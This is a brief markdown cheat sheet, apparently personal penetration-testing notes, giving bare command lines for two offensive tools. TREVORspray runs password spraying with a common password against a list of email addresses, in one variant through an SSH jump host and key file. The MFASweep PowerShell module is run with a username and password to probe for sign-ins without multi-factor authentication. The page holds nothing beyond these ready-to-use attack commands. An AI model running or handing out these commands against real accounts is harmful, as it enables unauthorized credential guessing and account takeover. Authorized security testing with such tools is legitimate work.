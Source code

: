#### TREVORspray
```bash
trevorspray -u valid_emails.txt -p 'Welcome123' --delay 15
```

```bash
trevorspray -u valid_emails.txt -p 'Welcome123!' --delay 5 --no-current-ip --ssh ubuntu@100.25.38.206 -k Octo_AWS.pem
```

#### MFASweep
```powershell
Import-Module .\MFASweep.ps1

Invoke-Sweep -Username anton@adot8.com -Password Haha123!
```